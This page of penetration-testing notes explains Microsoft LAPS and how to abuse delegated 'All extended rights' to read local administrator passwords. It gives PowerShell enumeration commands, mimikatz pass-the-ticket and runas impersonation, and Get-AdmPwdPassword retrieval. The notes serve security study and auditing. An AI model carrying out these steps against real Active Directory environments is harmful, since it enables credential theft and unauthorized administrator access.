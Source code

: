 # Local Administrator Password Solution (LAPS)

### Resources

#### (1) Learning resources

1. **ms-Mcs-AdmPwd attribute**

{% embed url="https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-ada2/ad2ce8fa-42a0-4371-ad18-5d1d1c488b22" %}

2. **What is Windows LAPS?**

{% embed url="https://learn.microsoft.com/en-us/windows-server/identity/laps/laps-overview" %}

3. **Windows LAPS PowerShell cmdlets**

{% embed url="https://learn.microsoft.com/en-us/windows-server/identity/laps/laps-management-powershell" %}

4. **Additional resources**

{% embed url="https://adsecurity.org/?p=3164" %}

#### (2) Exploitation examples

{% embed url="https://viperone.gitbook.io/pentest-everything/everything/everything-active-directory/laps" %}

{% embed url="https://github.com/passtheticket/Abusing_Laps_Toolkit" %}

PDF: [https://www.exploit-db.com/docs/english/50680-abusing-laps---paper.pdf?utm\_source=dlvr.it\&utm\_medium=twitter](https://www.exploit-db.com/docs/english/50680-abusing-laps---paper.pdf?utm_source=dlvr.it\&utm_medium=twitter)

### Basic concepts

What is the `ms-Mcs-AdmPwd` attribute?

An attribute used by the LAPS feature, that contains a cleartext password (this will usually be the password of the local administrator account).

What is the `admpwd.dll` file?

{% embed url="https://adsecurity.org/?p=3164" %}

The presence of this file will indicate that the **Group Policy Client Side Extension** (**CSE**) is configured on the computer, and that the LAPS client is installed on the machine. It is located in `C:\program files\LAPS\CSE`.

### AllExtendedRights

#### 1. What is the "All extended rights" attribute given to an AD organizational unit (OU) under the context of LAPS?

For a given OU with this attribute set, any extended right holders (groups, users, etc.) will be able to read the LAPS password for any machines under that particular OU. Since the LAPS password mostly involves the local administrator account, this means that the rights holder will be able to retrieve the password for the local administrator (stored in the `ms-Mcs-AdmPwd` attribute).

#### Exploitation steps

1. Query all the OUs that has the "**All extended rights**" attribute that deals with LAPS

{% embed url="https://learn.microsoft.com/en-us/powershell/module/laps/find-lapsadextendedrights?view=windowsserver2025-ps" %}

{% code overflow="wrap" %}
```powershell
PS> Find-LapsADExtendedRights -Identity *
Name                 DistinguishedName                    Status
----                  -----------------                   ------
Domain Controllers  OU=Domain Controllers,DC=xxxx         Delegated
<OU>                OU=<OU>,DC=xxxx                       Delegated
```
{% endcode %}

2. Retrieve the extended right holders for a particular OU

```powershell
PS> Find-LapsADExtendedRights -Identity <OU>
ObjectDN         ExtendedRightHolders
--------         -------------------
OU=<OU>,DC=xxxx  {xxxx\xxxx}
```

3. Retrieve the users in the group

Given that a particular group has extended rights, we can enumerate the users of that particular group:

```powershell
PS> net groups <GROUPNAME>
PS> Get-ADGroupMembers -Identity <GROUPNAME>
```

4. Retrieve the LAPS password

Given that we have compromised or impersonate a particular user of that group (found in the previous step), we can retrieve the LAPS password of a particular machine under the OU. This will provide us with the local administrator password for that machine.

First, we have to load the credentials for the user to impersonate using either a TGT (pass-the-ticket) or simply a username and password combination with the `runas.exe` utility:  &#x20;

```powershell
mimikatz # kerberos::ptt ...
PS> runas.exe /netonly ...
```

Next, we can retrieve the password for the local administrator account on the machine given by `<TARGET_COMPUTER>`:

```powershell
PS> Get-AdmPwdPassword -ComputerName <TARGET_COMPUTER>
```
